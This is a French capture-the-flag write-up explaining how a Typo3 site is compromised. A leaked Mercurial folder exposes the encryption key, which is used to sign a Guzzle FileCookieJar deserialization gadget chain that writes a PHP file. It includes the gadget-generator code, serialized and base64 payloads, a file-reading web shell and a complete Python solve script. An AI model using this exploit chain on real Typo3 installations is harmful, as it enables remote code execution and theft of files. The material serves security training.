La recherche de gadget à désérialiser sur Typo3 peut s'avérer longue voir innéficace. Cependant plusieurs références au plugin [Amazon AWS S3 FAL driver](https://github.com/andersundsehr/aus_driver_amazon_s3), non natif à Typo3 sont présents (source html de l'index, configuration, composer...). Ce dernier semble moins regardant quant à sa qualité de code.

En effet une recherche de gadgets dans le plugin nous ramène au fichier [FileCookieJar.php](https://github.com/andersundsehr/aus_driver_amazon_s3/blob/master/Resources/Private/PHP/vendor/guzzlehttp/guzzle/src/Cookie/FileCookieJar.php#L40) présent dans la GadgetChain Guzzle proposée sur l'outil [PHPGGC](https://github.com/ambionics/phpggc/blob/master/gadgetchains/Guzzle/FW/1/chain.php).

Le plugin nous permet ainsi une écriture de fichier arbitraire gràce à la désérialisation d'un objet de la classe `FileCookieJar.php`.

La racine du site web (`/challenge`) étant écrite dans les commentaires HTML, il est de générer une payload à l'aide de [PHPGGC](https://github.com/ambionics/phpggc) : `phpggc Guzzle/FW1 /challenge/public/art-static/exploit.php exploit.php | base64 -w 0` ou du script suivant:

```php
<?php
// https://github.com/ambionics/phpggc/blob/master/gadgetchains/Guzzle/FW/1/gadgets.php
namespace GuzzleHttp\Cookie
{
    class SetCookie
    {
        private $data;

        public function __construct($data)
        {
            $this->data = [
                'Expires' => 1,
                'Discard' => false,
                'Value' => $data
            ];
        }
    }

    class CookieJar
    {
        private $cookies = [];
        private $strictMode;

        public function __construct($data)
        {
            $this->cookies = [new SetCookie($data)];
        }
    }

    class FileCookieJar extends CookieJar
    {
        private $filename;
        private $storeSessionCookies = true;

        public function __construct($filename, $data)
        {
            parent::__construct($data);
            $this->filename = $filename; 
        }
    }

    $path = "/challenge/public/art-static/exploit.php";
    $data = "<?php phpinfo(); ?>";
    $obj = new \GuzzleHttp\Cookie\FileCookieJar($path, $data);
    $payload_serialize = serialize($obj);
    $payload_base64 = base64_encode($payload_serialize);
    print("Payload: \n");
    print($payload_serialize . "\n\n");
    print("Encoded payload: \n");
    print($payload_base64 . "\n");
}
?>
```
```
Payload: 
O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:36:"GuzzleHttp\Cookie\CookieJarcookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"GuzzleHttp\Cookie\SetCookiedata";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:19:"<?php phpinfo(); ?>";}}}s:39:"GuzzleHttp\Cookie\CookieJarstrictMode";N;s:41:"GuzzleHttp\Cookie\FileCookieJarfilename";s:40:"/challenge/public/art-static/exploit.php";s:52:"GuzzleHttp\Cookie\FileCookieJarstoreSessionCookies";b:1;}

Encoded payload: 
TzozMToiR3V6emxlSHR0cFxDb29raWVcRmlsZUNvb2tpZUphciI6NDp7czozNjoiAEd1enpsZUh0dHBcQ29va2llXENvb2tpZUphcgBjb29raWVzIjthOjE6e2k6MDtPOjI3OiJHdXp6bGVIdHRwXENvb2tpZVxTZXRDb29raWUiOjE6e3M6MzM6IgBHdXp6bGVIdHRwXENvb2tpZVxTZXRDb29raWUAZGF0YSI7YTozOntzOjc6IkV4cGlyZXMiO2k6MTtzOjc6IkRpc2NhcmQiO2I6MDtzOjU6IlZhbHVlIjtzOjE5OiI8P3BocCBwaHBpbmZvKCk7ID8+Ijt9fX1zOjM5OiIAR3V6emxlSHR0cFxDb29raWVcQ29va2llSmFyAHN0cmljdE1vZGUiO047czo0MToiAEd1enpsZUh0dHBcQ29va2llXEZpbGVDb29raWVKYXIAZmlsZW5hbWUiO3M6NDA6Ii9jaGFsbGVuZ2UvcHVibGljL2FydC1zdGF0aWMvZXhwbG9pdC5waHAiO3M6NTI6IgBHdXp6bGVIdHRwXENvb2tpZVxGaWxlQ29va2llSmFyAHN0b3JlU2Vzc2lvbkNvb2tpZXMiO2I6MTt9
```

Après avoir remplacé une variable `__state` par le nouveau payload concaténé à sa signature (du padding avec des = peut être nécessaire) on obtient le résultat suivant:

```
-----------------------------394558726732902211334108093864
Content-Disposition: form-data; name="tx_form_formframework[contactform-1][__state]"

TzozMToiR3V6emxlSHR0cFxDb29raWVcRmlsZUNvb2tpZUphciI6NDp7czozNjoiAEd1enpsZUh0dHBcQ29va2llXENvb2tpZUphcgBjb29raWVzIjthOjE6e2k6MDtPOjI3OiJHdXp6bGVIdHRwXENvb2tpZVxTZXRDb29raWUiOjE6e3M6MzM6IgBHdXp6bGVIdHRwXENvb2tpZVxTZXRDb29raWUAZGF0YSI7YTozOntzOjc6IkV4cGlyZXMiO2k6MTtzOjc6IkRpc2NhcmQiO2I6MDtzOjU6IlZhbHVlIjtzOjE5OiI8P3BocCBwaHBpbmZvKCk7ID8+Ijt9fX1zOjM5OiIAR3V6emxlSHR0cFxDb29raWVcQ29va2llSmFyAHN0cmljdE1vZGUiO047czo0MToiAEd1enpsZUh0dHBcQ29va2llXEZpbGVDb29raWVKYXIAZmlsZW5hbWUiO3M6NDA6Ii9jaGFsbGVuZ2UvcHVibGljL2FydC1zdGF0aWMvZXhwbG9pdC5waHAiO3M6NTI6IgBHdXp6bGVIdHRwXENvb2tpZVxGaWxlQ29va2llSmFyAHN0b3JlU2Vzc2lvbkNvb2tpZXMiO2I6MTt9==946ffba5260d6c88e9345768ff8b6892c170b403
-----------------------------394558726732902211334108093864
```



Enfin, l'adaptation du payload permet de récupérer un shell et lire le flag situé à la racine de la machine. Voici sans plus attendre un script de solve complet:

- solve.php (shell)
```php
<?php echo(file_get_contents($_GET[0])); unlink(__FILE__); ?>
```

- solve.py
```python
from hashlib import sha1
import hmac
import json
import requests
import zstd

URL = "https://artgallery.ctf.bzh"
ENCRYPTION_KEY = "6ba18cabee8701434b5400dd3b1239bcc6c1e9fd81cd3515991a374c89dd16d0f7627f525595f3a7f1c01cf139aec243"


"""
    Step 1 : Extract LocalConfiguration.php from .hg
"""

s = requests.session()

r = s.get(f"{URL}/.hg/requires").text
assert ("share-safe" in r)
print("[+] .hg folder is available")

# uppercase is escaped: 'FOO' -> '_f_o_o'
# https://www.mercurial-scm.org/wiki/FileFormats#data.2F
r = s.get(f"{URL}/.hg/store/data/public/typo3conf/_local_configuration.php.i")
assert (r.status_code == 200)
print("[+] LocalConfiguration.php (_local_configuration.php.i) is available in .hg folder")


"""
    Step 2 : Decode _local_configuration.php.i and recover EncryptionKey
"""

# strip 64 first bytes
# https://www.mercurial-scm.org/wiki/RevlogNG#RevlogNG_format
# and decompress with zstd
# https://www.mercurial-scm.org/wiki/Release4.1
# https://www.mercurial-scm.org/wiki/Release5.8
data = r.content[64:]
local_configuration = zstd.decompress(data).decode()
assert (ENCRYPTION_KEY in local_configuration)
print("[+] EncryptionKey found in _local_configuration.php.i")


"""
    Step 3 : File write using unserialize() 
"""

# https://www.synacktiv.com/en/publications/typo3-leak-to-remote-code-execution.html#

# Generate gadget chain and encode in base64
# https://github.com/ambionics/phpggc/blob/master/gadgetchains/Guzzle/FW/1/chain.php
# phpggc Guzzle/FW1 /challenge/public/art-static/solve.php $(realpath solve.php) 2>/dev/null | base64 -w 0
gadgets_chain = "TzozMToiR3V6emxlSHR0cFxDb29raWVcRmlsZUNvb2tpZUphciI6NDp7czozNjoiAEd1enpsZUh0dHBcQ29va2llXENvb2tpZUphcgBjb29raWVzIjthOjE6e2k6MDtPOjI3OiJHdXp6bGVIdHRwXENvb2tpZVxTZXRDb29raWUiOjE6e3M6MzM6IgBHdXp6bGVIdHRwXENvb2tpZVxTZXRDb29raWUAZGF0YSI7YTozOntzOjc6IkV4cGlyZXMiO2k6MTtzOjc6IkRpc2NhcmQiO2I6MDtzOjU6IlZhbHVlIjtzOjYxOiI8P3BocCBlY2hvKGZpbGVfZ2V0X2NvbnRlbnRzKCRfR0VUWzBdKSk7IHVubGluayhfX0ZJTEVfXyk7ID8+Ijt9fX1zOjM5OiIAR3V6emxlSHR0cFxDb29raWVcQ29va2llSmFyAHN0cmljdE1vZGUiO047czo0MToiAEd1enpsZUh0dHBcQ29va2llXEZpbGVDb29raWVKYXIAZmlsZW5hbWUiO3M6Mzg6Ii9jaGFsbGVuZ2UvcHVibGljL2FydC1zdGF0aWMvc29sdmUucGhwIjtzOjUyOiIAR3V6emxlSHR0cFxDb29raWVcRmlsZUNvb2tpZUphcgBzdG9yZVNlc3Npb25Db29raWVzIjtiOjE7fQo="

def gen_sign(string, key):
    # Sign gadgetchain with EncryptionKey recovered from LocalConfiguration.php
    # https://github.com/TYPO3/typo3/blob/f43979e74409500b731a98b39f978379669ed2e9/typo3/sysext/extbase/Classes/Security/Cryptography/HashService.php#L45
    return hmac.new(key.encode(), string.encode(), sha1).hexdigest()

# Generates request data payload to be sent as 'form-data'
# route extracted from leggit form submit
# cHash: https://github.com/TYPO3/typo3/blob/11.5/typo3/sysext/frontend/Classes/Page/CacheHashCalculator.php#L49

route = f"{URL}/debug-contact-form?tx_form_formframework[action]=perform&tx_form_formframework[controller]=FormFrontend&cHash=5896fae28c9ab2b7816b837d8fdf8172"
BOUNDARY = "de5130f1327f151d8d67483c37095a08"
key = "tx_form_formframework[contactform-1][__state]"
value = gadgets_chain+gen_sign(gadgets_chain, ENCRYPTION_KEY)
payload = f'--{BOUNDARY}\r\nContent-Disposition: form-data; name="{key}"\r\n\r\n{value}\r\n--{BOUNDARY}--'
headers = {
    'Content-type': f"multipart/form-data; boundary={BOUNDARY}",
    'Cache-control': "no-cache"
}

# Submit file write exploit
r = s.post(route, headers=headers, data=payload)
assert("Oops, an error occurred!" in r.text)
print("[+] Exploit submitted successfully")


"""
    Step 4 : Get /flag.txt file
"""

r = json.loads(s.get(f"{URL}/art-static/solve.php?0=/flag.txt").text)
rflag = r[0]["Value"]
print(f"[+] Got flag: {rflag}")
```

#### Flag

`BZHCTF{MyGadgetsAreWorksOfArt}`

Auteur: [@zeecka_](twitter.com/zeecka_)